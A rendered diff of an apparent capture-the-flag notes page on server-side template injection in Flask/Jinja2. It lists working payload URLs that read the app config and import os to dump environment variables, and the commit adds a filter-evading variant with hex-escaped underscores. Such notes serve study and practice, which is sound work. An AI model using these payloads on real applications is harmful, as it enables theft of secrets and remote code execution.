

Before and after one commit to poorvi1910/Web, a Markdown page: challenges/SSTI_payload_creation_chall.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/challenges/SSTI_payload_creation_chall.md
+++ b/challenges/SSTI_payload_creation_chall.md
@@ -53,7 +53,7 @@ http://127.0.0.1:5000/?c={{%20(dict.mro()[-1]|attr(%22\x5f\x5fsubclasses\x5f\x5f
 - ##  Get name of current python flask script
 
 
-- Get all the current envvars
+- ## Get all the current envvars
 ```http://127.0.0.1:5000/?c={{config}}```: ```<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None,```
 ```http://127.0.0.1:5000/?c={{config.__class__}}``` : ```<class 'flask.config.Config'>```
 ```http://127.0.0.1:5000/?c={{config.__class__.from_envvar}}```: ```<function Config.from_envvar at 0x7facac89bf60>```
@@ -64,6 +64,11 @@ PAYLOAD:
 http://127.0.0.1:5000/?c={{config.__class__.from_envvar[%22__globals__%22][%22__builtins__%22][%22__import__%22](%22os%22).environ}}
 ```
 ![image](https://github.com/poorvi1910/Web/assets/146640913/de0b5534-d6a5-41aa-9c42-c4d4493f7a61)
+
+BLACKLIST:
+```
+http://127.0.0.1:5000/?c={{config.from_envvar[%27\x5f\x5fglobals\x5f\x5f%27][%27\x5f\x5fbuiltins\x5f\x5f%27][%27\x5f\x5fimport\x5f\x5f%27](%27os%27).environ}}
+```
 
 - ##  Read a local file
 
````
Also changed, not shown: other parts of challenges/SSTI_payload_creation_chall.md (+2 -0 lines).
